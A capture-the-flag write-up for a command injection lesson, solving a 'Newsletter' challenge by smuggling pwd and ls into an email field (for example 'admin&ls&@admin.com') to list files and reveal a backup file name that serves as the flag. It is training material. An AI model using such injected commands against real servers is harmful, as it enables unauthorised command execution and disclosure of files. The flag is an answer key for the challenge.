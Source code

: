 # Lesson 13: Command Injection

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/13-command-injection](https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/13-command-injection)*

## Introduction

In this lesson, we will learn about Command Injection, and how can we use it to execute commands on the server.

> ### What is Command Injection?
>
> #### Command injection is a web security vulnerability that allows an attacker to execute arbitrary operating system commands on the host server that is running an application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible mainly due to insufficient input validation.

## Challenge

> Name:\
> *Newsletter*

---

> Description:\
> *the administrator put the backup file in the same root folder as the application, help us download this backup by retrieving the backup file name*

## Solution

In this challenge, we have a website, and we need to get the backup file name.

Lets try to send this payload to the website:

```html
admin&pwd&@admin.com
```

After sending the request, we will get a response that says:

```html
/var/www/html
```

So, we can see that the website is using `pwd` command to get the current directory, and we can use it to get the backup file name.

Lets try to send this payload to the website:

```html
admin&ls&@admin.com
```

After sending the request, we will get a response that says:

```html
emails_secret_1337.txt hgdr64.backup.tar.gz index.php
```

And Yah ! we got the backup file name.

## Flag

> hgdr64.backup.tar.gz

## References

- [https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection)
